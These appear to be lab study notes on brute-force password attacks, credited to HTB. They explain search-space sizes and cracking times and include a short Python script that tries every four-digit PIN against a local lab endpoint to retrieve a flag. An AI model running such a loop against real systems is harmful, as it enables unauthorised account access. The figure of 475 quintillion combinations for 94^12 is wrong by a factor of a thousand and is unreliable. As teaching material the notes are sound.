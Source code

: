 # Brute Force Attacks

**Understanding Brute Force Attacks:**

* Brute force attacks involve systematically trying all possible combinations to crack passwords.
* The total number of combinations can be calculated using the formula:
  * **Possible Combinations = Character Set Size^Password Length**

**Example Calculations:**

* **6-character password (lowercase letters):**
  * 26^6 ≈ 300 million combinations.
* **8-character password (lowercase letters):**
  * 26^8 ≈ 200 billion combinations.
* **8-character password (lowercase + uppercase):**
  * 52^8 ≈ 53 trillion combinations.
* **12-character password (lowercase, uppercase, numbers, symbols):**
  * 94^12 ≈ 475 quintillion combinations.

**Key Takeaways:**

* Increasing password length or complexity (adding character types) exponentially increases the search space, making brute-force attacks more difficult.
* The attacker's computational power significantly affects the time required to crack a password. More powerful hardware can attempt more guesses per second.

<figure><img src="../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption><p>Credits to HTB</p></figcaption></figure>

**Cracking Time Comparison:**

* **Basic Computer (1 million passwords/second):**
  * Cracking an 8-character alphanumeric password could take \~6.92 years.
* **Supercomputer (1 trillion passwords/second):**
  * Even with this power, cracking a complex 12-character password could take \~15,000 years.

**Practical Example: Cracking a 4-Digit PIN**

* A simple demonstration involves brute-forcing a 4-digit PIN (0000 to 9999) using a Python script.
* The script sends requests to a server endpoint, checking each PIN until the correct one is found.

**Python Script Overview:**

```python
pythonCopy Codeimport requests

ip = "127.0.0.1"  # Target system IP
port = 1234       # Target system port

# Brute-force all 4-digit PINs
for pin in range(10000):
    formatted_pin = f"{pin:04d}"
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    if response.ok and 'flag' in response.json():
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```

* The script iterates through all possible PINs, checking responses to find the correct one and capture the associated flag.

**Conclusion:**

* Brute force attacks highlight the importance of strong, complex passwords and the need for robust security measures to protect against such vulnerabilities.
